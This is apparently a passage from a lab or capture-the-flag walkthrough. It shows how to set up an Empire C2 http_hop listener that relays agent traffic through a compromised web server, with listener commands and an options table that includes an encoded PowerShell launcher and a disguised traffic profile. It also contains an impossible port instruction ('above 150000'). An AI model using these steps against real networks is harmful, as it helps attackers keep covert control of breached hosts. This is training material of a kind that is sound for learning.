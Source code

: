 ## Task 28: [Command and Control] Empire: Hop Listeners

Since Empire agents can't be proxied with a socat relay or alternative method, we must use a Hop Listener.

We will be using a **http_hop** listener.

```
uselistener http_hop
info
```

We are interested in:

* **RedirectListener** - forwards received agents like a relay.

```
set RedirectListener Gitserver
```

* **Host** - IP of the compromised web server (.200)

```
set Host 10.200.72.200
```

* **Port** - Pick a port above 150000

```
set Port 22903
```

Before we execute, we must make another listener like before connecting to the same port that this hop can connect to.

```
HTTP[S] Options:

  Name              Required    Value                            Description
  ----              --------    -------                          -----------
  Name              True        Gitserv                          Name for the listener.
  Host              True        http://Tun0-IP:22903         Hostname/IP for staging.
  BindIP            True        0.0.0.0                          The IP to bind to on the control server.
  Port              True        22903                            Port for the listener.
  Launcher          True        powershell -noP -sta -w 1 -enc   Launcher string.
  StagingKey        True        YJ=mQxdi<zB1.%6lP]cr{A0@?yEwhD3O Staging key for initial agent negotiation.
  DefaultDelay      True        5                                Agent delay/reach back interval (in seconds).
  DefaultJitter     True        0.0                              Jitter in agent reachback interval (0.0-1.0).
  DefaultLostLimit  True        60                               Number of missed checkins before exiting
  DefaultProfile    True        /admin/get.php,/news.php,/login/ Default communication profile for the agent.
                                process.php|Mozilla/5.0 (Windows
                                NT 6.1; WOW64; Trident/7.0;
                                rv:11.0) like Gecko
  CertPath          False                                        Certificate path for https listeners.
  KillDate          False                                        Date for the listener to exit (MM/dd/yyyy).
  WorkingHours      False                                        Hours for the agent to operate (09:00-17:00).
  Headers           True        Server:Microsoft-IIS/7.5         Headers for the control server.
  Cookie            False       gcOzVStJjORlwcvt                 Custom Cookie Name
  StagerURI         False                                        URI for the stager. Must use /download/. Example: /download/stager.php
```